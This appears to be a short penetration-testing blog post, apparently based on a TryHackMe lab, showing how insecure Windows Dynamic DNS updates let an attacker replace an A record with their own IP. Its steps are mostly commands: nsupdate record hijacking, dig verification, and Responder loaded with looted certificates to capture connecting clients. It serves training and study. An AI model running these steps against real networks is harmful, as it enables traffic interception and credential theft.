 ```yaml
---
layout: post
title: Insecure Dynamic DNS Updates
description: Insecure Dynamic DNS Updates
summary: Insecure Dynamic DNS Updates
tags: [dns,windows,foothold]
minute: 1
---
```

## What is Dynamic DNS Updates?
* Improves management of DNS records
* For example, a new end device who receives an IP via DHCP can register itself by adding A record into the DNS
* More info: [Microsoft Docs](https://docs.microsoft.com/en-us/troubleshoot/windows-server/networking/configure-dns-dynamic-updates-windows-server-2003)

![](/spindel/assets/Insecure%20Dynamic%20DNS%20Updates/secure-dns.png)

## Vulnerability
An attacker can replace a record by its own IP which will force clients to connect to it.

## Steps
* Delete record and replace with attacker IP `10.11.40.33`

```bash
➜ nsupdate
> server 10.10.23.72
> update delete selfservice.windcorp.thm 
> send
> update add selfservice.windcorp.thm 1234 A 10.11.40.33
> send
> quit
```

* Verify A record points to attacker IP

```bash
➜  ra2 dig selfservice.windcorp.thm a @thm

; <<>> DiG 9.16.15-Debian <<>> selfservice.windcorp.thm a @thm
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 57355
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;selfservice.windcorp.thm.	IN	A

;; ANSWER SECTION:
selfservice.windcorp.thm. 1234	IN	A	10.11.40.33

;; Query time: 188 msec
;; SERVER: 10.10.23.72#53(10.10.23.72)
;; WHEN: Sat Sep 18 08:00:02 EDT 2021
;; MSG SIZE  rcvd: 69
```

* If you have HTTPS certificates looted from victim, put it in responder

```bash
sudo cp *pem /usr/share/responder/certs/
```

* Point responder config to the certs

```bash
➜  scans cat /etc/responder/Responder.conf| grep cert
SSLCert = certs/crt.pem
SSLKey = certs/key.pem
➜  scans 
```

* Fire up responder and wait for clients to connect to you

```bash
sudo responder -I tun0
```

